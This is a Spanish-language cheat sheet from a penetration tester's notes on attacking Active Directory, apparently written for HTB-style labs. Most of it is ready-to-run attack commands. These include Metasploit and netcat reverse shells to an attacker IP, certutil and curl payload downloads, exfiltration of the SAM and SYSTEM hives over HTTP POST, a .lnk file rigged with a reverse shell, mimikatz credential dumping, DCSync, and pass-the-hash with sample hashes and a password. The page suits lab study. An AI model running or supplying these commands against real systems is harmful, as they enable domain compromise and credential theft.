```yaml
---
{"dg-publish":true,"permalink":"/penetration-tester-path/active-directory-notes/"}
---
```



Active Directory (AD) es un servicio de directorio para su uso en un entorno Windows Server. Se trata de una estructura de base de datos distribuida y jerárquica que comparte información de infraestructura para localizar, proteger, administrar y organizar los recursos del equipo y de la red, como archivos, usuarios, grupos, periféricos y dispositivos de red.


## Enumeration

- Crackmapexec:

``` sh
crackmapexec smb 192.168.xx.xx -u . -p '' \
--pass-pol --shares --computers \ --groups --local-groups --rid-brute
```

- Remote Desktop (RDP):

``` javascript
xfreerdp /u:'xxxx' /p:'xxxx' /v:'192.168.xx.xx' /tls-seclevel:0
```

--- 

## Privilege Escalation

- Metasploit:

``` javascript
[*] Start 'hta_server' for reverse shell
rlwrap msfconsole -q -x "use exploit/windows/misc/hta_server; set LHOST 10.10.16.13; set SRVHOST 10.10.16.13; run"

[*] Started reverse TCP handler on 10.10.16.13:4444 
[*] Using URL: http://10.10.16.13:8080/nZzLAD.hta
[*] Server started.

[*] Run on Windows machine
mshta.exe http://10.10.16.13:8080/nZzLAD.hta

[*] Meterpreter
sessions -i
sessions -i 1,2,3 etc

[*] Escalate with 'getsystem'
meterpreter > getsystem
```

- RunAsCs.exe:

``` javascript
.\runascs.exe sql_svc WqSZAF6CysDQbGb3 --logon-type 5 -b "cmd /c whoami /priv"
```

- GodPotato (SeImpersonatePrivilege):

``` javascript
certutil -urlcache -f http://10.10.16.10:8088/nc.exe C:\programdata\nc.exe
certutil -urlcache -f http://10.10.16.10:8088/GodPotato-NET4.exe C:\programdata\GodPotato-NET4.exe
C:\programdata\GodPotato-NET4 -cmd "C:\programdata\nc.exe -e cmd.exe 10.10.16.10 4446"
```

- robocopy (SeBackupPrivilege):

``` javascript
robocopy /b \Users\Administrator\Desktop .
```

- impacket-secretsdump (SAM Local):

``` javascript
[*] From Windows victim
powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
powershell -c reg save HKLM\SAM SAM.SAV
powershell -c compress-archive *.SAV SAM.zip
powershell -c iwr http://xxxx:xxxx -Method POST -InFile SAM.zip

[*] From Linux attacker
unzip -o SAM.zip
impacket-secretsdump \
LOCAL -sam SAM.SAV -system SYSTEM.SAV
```

- impacket-psexec (shell login):

``` javascript
[*] Using password:
impacket-psexec Administrator@xxxxxxxxxxx.xxx cmd.exe

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password: xxxxxxxxxx

[*] Using hash
impacket-psexec Administrator@htb.local cmd.exe -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'
```

- link files .lnk:

``` javascript
[*] upload nc.exe to the remote machine
curl xxxxxxxxxx:xxxx/nc.exe -O

[*] inject reverse shell
powershell "$s=(New-Object -COM WScript.Shell).CreateShortcut('C:\Common Applications\Notepad.lnk');$s.TargetPath='C:\Windows\System32\cmd.exe';$s.Arguments='/c \"C:\ProgramData\nc.exe xxxxxxxxxx xxxx -e cmd\"';$s.Save()"
```

---

### Tools:

- rubeus.exe

Rubeus es un kit de herramientas en C diseñado para la interacción y el abuso de Kerberos. Permite a los atacantes realizar diversos ataques basados ​​en Active Directory, como la extracción, falsificación y manipulación de tickets Kerberos.
``` javascript
curl xxxxxxxxxx:xxxx/rubeus.exe -O
.\rubeus.exe dump /nowrap
```

- rubeustoccache.py:

`rubeusTocCache.py` es un **script en Python** no oficial que sirve para **convertir tickets Kerberos (TGT o TGS)** generados por la herramienta **Rubeus** (Windows) al **formato `ccache`**
``` python
python3 rubeustoccache.py 'BASE64==' admin admin;export KRB5CCNAME=admin
```

- mimikatz.exe:
es una **herramienta de post-explotación** extremadamente poderosa, usada principalmente por **red teamers, pentesters y atacantes** para manipular, extraer o abusar de credenciales en sistemas Windows. 
``` javascript
curl xxxxxxxxxx:xxxx/mimikatz.exe -O
.\mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
.\mimikatz.exe "lsadump::dcsync /domain:xxxxxxxxxx.htb /user:Administrator" exit


.\mimikatz.exe privilege::debug "sekurlsa::pth /user:david /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe" exit
```

- powerview.ps1:

PowerView es una herramienta PowerShell para obtener conciencia situacional de red en los dominios de Windows. Contiene un conjunto de reemplazos de Pure-Powershell para varios comandos "netos" de Windows, que utilizan ganchos AD PowerShell y funciones de API WIN32 subyacentes para realizar una funcionalidad útil de dominio de Windows.
``` sh
curl xxxxxxxxxx:xxxx/powerview.ps1 -O
powershell Import-Module .\powerview.ps1
Get-NetDomain
Get-LocalUser
Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
```


- certutil:

``` javascript
[*] dump to get 'Config:'
certutil -dump

CA Server: DC01.mist.htb
CA Name: mist-DC01-CA
Config: DC01.mist.htb\mist-DC01-CA
```




---

#AD #tools_AD #Windows #enum #privilege-escalation

---

